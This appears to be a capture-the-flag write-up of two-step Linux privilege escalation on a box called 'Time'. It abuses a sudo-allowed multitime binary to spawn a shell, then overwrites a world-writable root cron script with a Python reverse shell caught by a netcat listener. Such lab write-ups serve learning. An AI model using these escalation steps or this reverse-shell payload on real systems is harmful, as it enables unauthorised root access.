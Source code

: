 # Name: Web: Privilege Escalation: Time

## Vulnerability

Cron job are programs or scripts that are scheduled to run automatically at specific times or intervals by script or command. The system-wide crontab is located at /etc/crontab.

One of the PATH directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

## Exploit

### First escalation

Let's check our sudo permission on the target system:

```linux
time@time:~$ sudo -l
Matching Defaults entries for time on time:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User time may run the following commands on time:
    (wormhole) /usr/bin/multitime
```

We can see that user ```time``` can run the ```multitime``` util as wormhole user.  It can be used to break out from restricted environments by spawning an interactive system shell if the binary is allowed to run as superuser by sudo.

```sudo multitime /bin/sh```

We can run the multitime binary as wormhole user:

```sudo -u wormhole /bin/multitime /bin/sh```

And now we escalated to ```wormhole``` user!

### Second escalation

Reading the ```/etc/crontab``` file we can see that the ```root``` user is running a python script which is located inside the ```wormhole``` home directory.

```bash
cat /etc/crontab

* * * * * root /usr/bin/python /home/wormhole/time-travel.py
```

This line of the crontab file translates that in every minute, the root user is running that ```time-travel.py``` script.

Checking for file permissions of that script, we can spot that the ```wormhole``` user has writing permission.

```bash
ls -la /home/womrhole/time-travel.py
-rwxr-xrwx 1 root root 242 Jul 24 15:20 /home/wormhole/time-travel.py
```

This means that we can overwrite the content of this file: we will try to use a reverse shell in python:

Modify the content of the ```/home/wormhole/time-travel.py``` file:

```python
# -*- coding: utf-8 -*-
#!/usr/bin/env python
import socket, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("localhost", 6969))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.system("/bin/sh -i")
```

Now, open a netcat connection on port ```6969```:

```bash
nc -nvlp 6969
```

Wait for 1 minute and we are root:

```bash
Listening on 0.0.0.0 6969
Connection received on 127.0.0.1 38646
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```